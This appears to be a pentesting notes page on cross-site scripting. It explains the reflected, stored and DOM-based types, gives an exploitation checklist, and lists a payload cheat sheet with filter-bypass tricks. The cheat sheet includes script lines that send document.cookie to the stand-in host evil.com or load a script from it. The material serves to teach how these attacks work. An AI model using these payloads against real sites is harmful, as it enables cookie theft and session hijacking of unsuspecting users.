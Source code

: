 ```yaml
---
layout: page
title: 
parent: 
grand_parent: 
---
```

# {{ page.title }}
{: .no_toc }

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
- TOC
{:toc}
</details>

---
Cross-Site Scripting is a type of injection where JavaScript code can be injected into a website. A XSS attack is where an attacker has embedded malicious code, often in the form of a browser-side script that is then sent to an unsuspecting user when they request the webpage.

These attacks can occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

There are 3 types of XSS attacks:
- [Reflective XSS](#reflective-xss) - Injected code is reflected back to a user by the web application
- [Stored XSS](#stored-xss) - The injected code is stored on the webserver and is requested by the user
- [DOM-Based XSS](#dom-based-xss) - The injected code manipulates the client-side DOM, resulting in the execution of code on the victim's browser. 

## Reflective XSS
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes this as it appears to have come from a 'Trusted' server.

This can lead to various security issue, such as stealing user information (eg. credentials or tokens) or performing unauthorised actions on behalf of a user.

These attacks are often initiated by creating malicious links or forms that exploit vulnerabilities in the target application.

Sometimes referred to as Non-Persistent or Type-II XSS.

## Stored XSS
Stored attacks are those where the injected script is permanently stored on the target server, such as in a database, comment section, message forum etc. The victim then retries the script from the server when it requests the stored information.

Unlike reflective XSS, the injected code is not reflected back immediately but rather stored on the target server and delivered to other users later. This makes stored XSS attacks particularly dangerous, as the malicious code affects multiple users and can lead to unauthorized access, data theft, or even complete website compromise.

Sometimes referred to a Persistent or Type-II XSS.

## DOM-Based XSS
This attack occurs when an attacker injects and manipulates malicious code into the Document Object Model (DOM) of a webpage. In DOM-Based XSS attacks the malicious injected code is usually executed by JavaScript directly in the victim's browser, without being sent to the server.

The vulnerable webpage often includes JavaScript that reads data from the URL or user input and then dynamically updates the DOM, but fails to properly sanitize or validate the input, allowing injected code to be executed.

## Impacts of XSS
- Impersonating or masquerading as the victim user
- Hijacking a user's session
- Perform unauthorized actions on behalf of the user
- Steal sensitive information
- Perform phishing attacks
- Capture user credentials
- Capture keystrokes
- Deface the website / Edit its content
- Inject trojan functionality into the website

## Exploiting XSS
When exploiting an XSS vulnerability, you need to understand how the application behaves towards specific payloads. The following checklist can be used before exploiting an XSS vulnerability:
- Find the backlisted/filtered characters. XSS locations can be used for this: `'';! - "<XSS>=&{()}`
- Observe what tags are blocked by Web Application Firewall (WAF) and which keywords are allowed (`iframe`, `img`, `body` etc.)
- Try character encoding ([URL encoding](https://www.w3schools.com/tags/ref_urlencode.ASP), [Double URL encoding](https://owasp.org/www-community/Double_Encoding), UTF-8 Unicode encoding, Long UTF-8 Unicode encoding, Hex encoding etc.)
- Try [XSS using HTML quote encapsulation](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation)
- Try [URL string evasion](https://docs.trellix.com/bundle/network-security-platform-application-notes/page/GUID-CCB698B2-851B-48DE-8E1F-93968ED36C2E.html)
- Create the payload list according to the allowed keywords
- Brute-force the application with the XSS payload list you just created

> Note: Double URL encoding can be tried since the first decoding process is performed by HTTP protocol and the resultant encoded URL will bypass the XSS filter.

### XSS Cheatsheet
A very useful OWASP XSS [cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).
Another useful [cheatsheet repo & other links](https://github.com/RenwaX23/XSS-Payloads/tree/master)

#### XSS Locators
{% highlight HTML %}
'';!--"<XSS>=&{()}
{% endhighlight %}

#### Classic Payloads
{% highlight HTML %}
<svg/onload=alert(1)>
<script>alert(1)</script>
<script    >alert(1)</script>
<ScRipT>alert(1)</scRipT>
<%00script>alert(1)</script>
<script>al%00ert(1)</script>
{% endhighlight %}

#### HTML Tags
{% highlight HTML %}
<img/src=x a='' onerror=alert(1)>
<IMG """><SCRIPT>alert(1)</SCRIPT>">
<img src=`x`onerror=alert(1)>
<img src='/' onerror='alert("kalisa")'>
<IMG SRC=# onmouseover="alert('xss')">
<IMG SRC= onmouseover="alert('xss')">
<IMG onmouseover="alert('xss')">
<BODY ONLOAD=alert('XSS')>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<SCRIPT SRC=http:/evil.com/xss.js?< B >
"><XSS<test accesskey=x onclick=alert(1)//test
<svg><discard onbegin=alert(1)>
<script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
<script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>
{% endhighlight %}

The `javascript:alert(1);` can be injected to run in-line java (eg. in a URL)

### Useful Example Situations
#### Bypass Angle Bracket Filter
In a Reflective XSS where the `<` & `>` are both blacklisted/encoded. You can still inject code if the user input is injected within a tag already. This relies on the `"` not being escaped as `&quot`.

{% highlight HTML %}
" onmouseover="alert(1)
{% endhighlight %}

Would result in something like a search box like:
{% highlight HTML %}
<input type=text placeholder='Search the blog...' name=search value="{{ user.input }}">
{% endhighlight %}

Being turned into:
{% highlight HTML %}
<input type=text placeholder='Search the blog...' name=search value="" onmouseover="alert(1)">
{% endhighlight %}

#### String Subtraction Injection
If a variable is set of the user input eg.
{% highlight js %}
var userInput = '';
{% endhighlight %}

If you then take a string and subtract a function from it, it will in turn run the function. Eg.
{% highlight js %}
var userInput = ''-alert(1)-'';
{% endhighlight %}

So the payload would be `'-alert(1)-'`